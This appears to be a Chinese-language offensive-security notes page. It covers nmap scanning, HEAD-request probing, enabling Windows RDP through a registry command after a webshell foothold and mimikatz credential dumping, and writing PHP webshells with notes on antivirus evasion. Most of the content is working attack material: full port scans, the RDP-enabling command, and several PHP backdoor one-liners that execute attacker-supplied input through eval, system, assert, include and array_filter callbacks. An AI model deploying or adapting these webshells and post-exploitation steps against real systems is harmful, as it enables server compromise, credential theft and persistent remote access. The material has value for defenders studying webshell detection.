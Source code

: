 # 1-head请求
nmap探测命令：
```
nmap -p 1-65535 -T4 -A -v -Pn ip
```
在蓝队防守前期要关注扫描行为，`HEAD`请求头只有两行，响应头较短，无请求体和响应体，速度快，多用于探测页面是否存在，例子：
```
HEAD /edit/db/ HTTP/1.1
Host:220.181.38.150
```
# 2-命令开远控
在红队队成功连接webshell后，上传mimikatz，通过`mimikatz`获取当前主机用户名密码，通过以下cmd命令修改注册表远程开启目标windows的3389端口，实现远程连接。
```cmd
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" " Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
# 3-webshell免杀
## 无效免杀
**一、直接执行**

使用php函数直接运行命令，常见的函数有(eval、system、assert)等，可以直接调用命令执行，可以连接，无法免杀。
```php
<?php
	@eval(&POST_["x"]);
?>
```
**二、动态函数执行**
把一个函数名当成一个字符串传递给一个变量，在使用变量当作函数去执行，可以连接，无法免杀。
```php
<?php
	$e='system';
	$e('ipconfig');
?>
<?php
	$e='sy'.'st'.'em';
	$e('ipconfig');
?>
<?php
	$e='assert';
	$e($_POST["x"]);
?>
```
**三、文件包含执行**
有两个php文件，我们把执行命令的放在b文件中，使用a文件去包含，达到执行的效果，可以连接，无法免杀。
```php
#b文件
<?php
	eval($_POST["x"]);
?>
#a文件
<?php
	include b.php;
?>
```
**四、回调函数**
将想要执行命令的函数赋给一个变量，再用一个可以调用函数执行的函数把变量解析成函数，$e变量使用GET方法不行，要是有REQUEST参数，可以连接，无法免杀。
```php
<?php
	$e=$_REQUEST['e'];
	$arr=array($_POST['x'],);
	array_filter($arr,$e);
```